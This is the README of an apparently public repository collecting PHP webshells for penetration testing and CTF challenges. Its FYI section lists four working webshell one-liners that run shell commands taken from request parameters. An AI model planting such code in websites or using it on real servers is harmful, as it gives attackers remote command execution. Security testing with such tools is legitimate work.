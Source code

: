 Contributing
============

To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (as hosted in your localhost).

PHP Webshells
=============

Common PHP shells is a collection of PHP webshells that you may need for your penetration testing (PT) cases or in a CTF challenge. 

Do not host any of the files on a publicly-accessible webserver (unless you know what you are up-to).

These are provided for education purposes only and legitimate PT cases.

I'll keep updating the collection whnever I stumble on any new webshell.

FYI
====


For basic features, I recommend one-liners like :

`<?php echo passthru($_GET['cmd']); ?>`

`<?php echo exec($_POST['cmd']); ?>`

`<?php system($_GET['cmd']); ?>`

`<?php passthru($_REQUEST['cmd']); ?>`




Cite:
=====

```
@software{jacques_pharand_2020_3748072,
  author       = {Jacques Pharand and
                  John Troon and
                  Javier Izquierdo Vera},
  title        = {JohnTroony/php-webshells: Collection CS1},
  month        = apr,
  year         = 2020,
  publisher    = {Zenodo},
  version      = {1.1},
  doi          = {10.5281/zenodo.3748072},
  url          = {https://doi.org/10.5281/zenodo.3748072}
}

```
